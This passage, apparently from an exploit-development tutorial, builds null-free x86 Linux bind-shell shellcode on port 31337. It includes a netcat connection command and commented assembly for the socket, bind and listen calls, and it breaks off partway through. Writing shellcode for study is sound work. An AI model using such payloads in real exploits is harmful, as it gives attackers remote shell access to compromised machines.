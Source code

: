 ```
$ nc localhost 31337
```
commands can now be executed in this terminal e.g. try typing ls to see contents of tcpbindshell directory.

Using the above C program as a reference it is easier to work out what is required in the development of an assembly language equivalnet. Therefore the following program is written, from the disassembly of the C binary, to allow for use as shellcode within a exploit payload. To this end the shellcode produced is free from NULLs and is as compact as possible, or at least as compact as I can make it, for now. Extensive comments have been added to the assembly language code for study purposes.
```nasm
global _start
section .text
_start:
    ; Socket
    ; Function prototype:
    ;   int socket(int domain, int type, int protocol)
    ; Purpose:
    ;   creates an endpoint for communications, returns a
    ;   descriptor that will be used thoughout the code to
    ;   bind/listen/accept communications
    xor eax, eax    ; zero eax register
    xor ebx, ebx    ; zero ebx register
    xor ecx, ecx    ; zero ecx register
    xor edx, edx    ; zero edx register
    mov al, 0x66    ; socketcall()
    mov bl, 0x1     ; socket() call number for socketcall
    push ecx        ; push null
    push byte 0x6   ; push IPPROTO_TCP value
    push byte 0x1   ; push SOCK_STREAM value
    push byte 0x2   ; push AF_INET
    mov ecx, esp    ; ecx contains pointer to socket() args
    int 0x80
    mov esi, eax    ; esi contains socket file descriptor
 
    ; Bind
    ; Function prototype:
    ;   int bind(int sockfd, const struct sockaddr *addr,
    ;     socklen_t addrlen)
    ; Purpose:
    ;   assigns the addess in addr to the socket descriptor,
    ;   basically "giving a name to a socket"
    mov al, 0x66        ; socketcall()
    mov bl, 0x2         ; bind() call number for socketcall
    push edx            ; push null
    push word 0x697a    ; push port number 31337
    push word bx        ; push AF_INET
    mov ecx, esp        ; ecx contains pointer to sockaddr struct
    push byte 0x10      ; push socklen_t addrlen
    push ecx            ; push const struct sockaddr *addr
    push esi            ; push socket file descriptor
    mov ecx, esp        ; ecx contains pointer to bind() args
    int 0x80
 
    ; Listen
    ; Function prototype:
    ;   int listen(int sockfd, int backlog)
    ; Purpose:
    ;   Prepares the socket referenced in the descriptor for
    ;   accepting incoming communications
    mov al, 0x66    ; socketcall()
    mov bl, 0x4     ; listen() call number for socketcall
    push byte 0x1   ; push int backlog
    push esi        ; push socket file descriptor
```